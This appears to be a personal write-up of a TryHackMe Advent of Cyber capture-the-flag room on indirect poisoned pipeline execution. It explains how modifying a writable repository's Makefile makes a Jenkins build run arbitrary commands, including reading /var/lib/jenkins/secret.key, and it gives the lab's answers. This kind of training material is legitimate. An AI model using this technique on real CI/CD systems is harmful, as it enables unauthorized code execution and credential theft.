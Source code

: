 
# Task 27  [Day 21] DevSecOps Yule be Poisoned: A Pipeline of Insecure Code!

## Learning Objectives

- Understand how a larger CI/CD environment operates.
- Explore indirect poisoned pipeline execution (PPE) and how it can be used to exploit Git.
- Apply CI/CD exploitation knowledge to the larger CI/CD environment.

## CI/CD Environment

Often, developers or other end-users only see a limited portion of the CI/CD pipeline. Developers interact with Git on a daily basis, so it makes sense that CI/CD is most commonly associated with Git – although it only makes up a quarter of a typical CI/CD pipeline. The diagram below visualises the general segments of a pipeline: development, build, testing, and deployment. While these segments could be expanded and interchanged, all pipelines will follow a similar order.

In the previous task, we looked at a CI/CD environment that was self-contained in Git. In a more formal environment, segments of the pipeline may be separated out onto different platforms. Below is the CI/CD environment we'll be exploring in this room. You will notice the addition of Jenkins, a build platform and automation server. In the next section, we will explore Jenkins and discuss how these components interact and contribute to the pipeline.

## Automation Platforms

Jenkins, along with many other applications, handles a pipeline's build segment. These platforms can be remote or local. For example, Travis CI is a remote build platform, whereas Jenkins is a local automation server.

These platforms rely on runners or agents to build a project on a pre-configured VM. One advantage of some automation platforms is that they can automatically create and configure build environments on demand. This allows building and testing in different environments without manual configuration or administration.

## Indirect Poisoned Pipeline Execution

Let's briefly shift our focus back to the development stage. In the previous task, poisoned pipeline execution was introduced, wherein an attacker has direct write access to a repository pipeline. If an attacker doesn't have direct write access (to a main-protected or branch-protected repository, for example), it's possible they have write access to other repositories that could **indirectly** modify the behaviour of the pipeline execution.

If an environment is employing a development pipeline, a configuration file must be defined for the steps the build system must take. If a repository contains all the necessary source and build files, and another repository contains the pipeline files, write permissions could differ between the two, resulting in an indirect PPE vulnerability. In this example, you can assume that the repository containing the source is not write-protected and the repository containing the pipeline is write-protected.

To exploit this vulnerability, an attacker would need to identify a file or other parameter they can arbitrarily change that the pipeline file will use. Makefiles and other build files are usually exploitable because they are used to build the source and can run any arbitrary commands as defined in the makefile. Below is an example of what this might look like in a pipeline file.

```makefile
stage('make') {
	steps {
		build() {
				sh 'make || true'
		}
	}
}
```

To weaponise this vulnerability or PPE in general, the CI/CD environment as a whole must be taken into consideration. For example, if a build server is used to build artefacts on a pre-configuration virtual machine, an attacker could run arbitrary commands in that environment.

## Resolver

- clone and modify Build to whoami
```
http://10.10.28.42:3000/McHoneyBell/gift-wrapper-pipeline.git

cat Jenkinsfile                                
pipeline {
    agent any

    stages {
        stage('Prepare') {
            steps {
                git 'http://127.0.0.1:3000/McHoneyBell/gift-wrapper.git'
            }
        }

        stage('Build') {
            steps {
                sh 'whoami'
            }
        }
    }
}
```

- push and see error
```
git add .
git commit -m "cheking whoami"

git config user.email "guest@antarticrafts.com"
git config user.name "guest" 

git commit -m "cheking whoami"                 
[main 448e17b] cheking whoami
 1 file changed, 2 insertions(+), 2 deletions(-)

git push
Username for 'http://10.10.28.42:3000': guest
Password for 'http://guest@10.10.28.42:3000': 
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 6 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 286 bytes | 286.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: 
remote: Gitea: User permission denied for writing.
To http://10.10.28.42:3000/McHoneyBell/gift-wrapper-pipeline.git
 ! [remote rejected] main -> main (pre-receive hook declined)
error: failed to push some refs to 'http://10.10.28.42:3000/McHoneyBell/gift-wrapper-pipeline.git'

```

- clone other repo
```
git clone http://10.10.28.42:3000/McHoneyBell/gift-wrapper.git         
Cloning into 'gift-wrapper'...
remote: Enumerating objects: 71, done.
remote: Counting objects: 100% (71/71), done.
remote: Compressing objects: 100% (66/66), done.
remote: Total 71 (delta 27), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (71/71), 70.29 KiB | 359.00 KiB/s, done.
Resolving deltas: 100% (27/27), done.

cd gift-wrapper

cat Makefile 
build:
        ./to_pip.sh


nano Makefile
cat Makefile              
build:
        whoami
                 

git add . 
git commit -m "confirming whoami"
git push                                       
git push
Username for 'http://10.10.28.42:3000': guest
Password for 'http://guest@10.10.28.42:3000': 
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 6 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 284 bytes | 284.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.10.28.42:3000/McHoneyBell/gift-wrapper.git
   26ece71..c505188  master -> master


```

- changes to answer quesrions
```
cat Makefile 
build:
        whoami
        uname -a 
        cat /var/lib/jenkins/secret.key
git add .
git commit -m "other changes"
git push
```

- after jenkins build

```
whoami
jenkins
uname -a 
Linux tryhackme 5.4.0-1029-aws #30-Ubuntu SMP Tue Oct 20 10:06:38 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
cat /var/lib/jenkins/secret.key
90e748eafdd2af4746a5ef7941e63272f24f1e33a2882f614ebfa6742e772ba7
```

## Answer the questions below

What Linux kernel version is the Jenkins node?
 5.4.0-1029-aws

What value is found from _/var/lib/jenkins/secret.key?_
90e748eafdd2af4746a5ef7941e63272f24f1e33a2882f614ebfa6742e772ba7




Task 27  [Day 21] DevSecOps Yule be Poisoned: A Pipeline of Insecure Code!



I completed  Task 27  [Day 21] DevSecOps Yule be Poisoned: A Pipeline of Insecure Code!!, Don't miss out Tryhackme #AdventOfCyber @RealTryHackMe https://tryhackme.com/room/adventofcyber2023


## Referencias

- https://www.cidersecurity.io/top-10-cicd-security-risks/poisoned-pipeline-execution-ppe/
- https://portswigger.net/daily-swig/poisoned-pipelines-security-researcher-explores-attack-methods-in-ci-environments